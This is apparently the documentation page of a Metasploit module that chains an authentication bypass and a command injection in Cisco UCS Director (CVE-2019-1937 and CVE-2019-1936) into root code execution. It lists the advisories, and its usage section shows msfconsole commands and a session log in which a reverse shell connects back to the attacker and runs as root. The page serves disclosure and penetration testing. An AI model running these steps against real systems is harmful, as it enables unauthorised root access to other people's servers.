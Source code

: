 ## Intro

The Cisco UCS Director virtual appliance contains two flaws that can be combined
and abused by an attacker to achieve remote code execution as root.

The first one, CVE-2019-1937, is an authentication bypass, that allows the
attacker to authenticate as an administrator.

The second one, CVE-2019-1936, is a command injection in a password change form,
that allows the attacker to inject commands that will execute as root.

This module combines both vulnerabilities to achieve the unauthenticated command
injection as root.
It has been tested with Cisco UCS Director virtual machines 6.6.0 and 6.7.0.
Note that Cisco also mentions in their advisory that their IMC Supervisor and
UCS Director Express are also affected by these vulnerabilities, but this module
was not tested with those products.


## Author and discoverer

Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security


## References

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190821-imcs-ucs-authby
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190821-imcs-ucs-cmdinj
FULL_DISC
https://raw.githubusercontent.com/pedrib/PoC/master/advisories/cisco-ucs-rce.txt


## Usage

Setup RHOST, LHOST, LPORT and run it!

```
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > use exploit/linux/http/cisco_ucs_rce
msf5 exploit(linux/http/cisco_ucs_rce) > set rhost 10.9.8.121
rhost => 10.9.8.121
msf5 exploit(linux/http/cisco_ucs_rce) > set lhost 10.9.8.1
lhost => 10.9.8.1
msf5 exploit(linux/http/cisco_ucs_rce) > run

[*] Started reverse TCP handler on 10.9.8.1:4444
[+] 10.9.8.121:443 - Successfully bypassed auth and got our admin JSESSIONID cookie!
[+] 10.9.8.121:443 - Shelly is here, press ENTER to start playing with her!
[*] Command shell session 2 opened (10.9.8.1:4444 -> 10.9.8.121:34778) at 2019-08-29 22:28:01 +0700

[root@localhost inframgr]# whoami
whoami
root
[root@localhost inframgr]# ^C
Abort session 2? [y/N]  y
""

[*] 10.9.8.121 - Command shell session 2 closed.  Reason: User exit
msf5 exploit(linux/http/cisco_ucs_rce) >
```
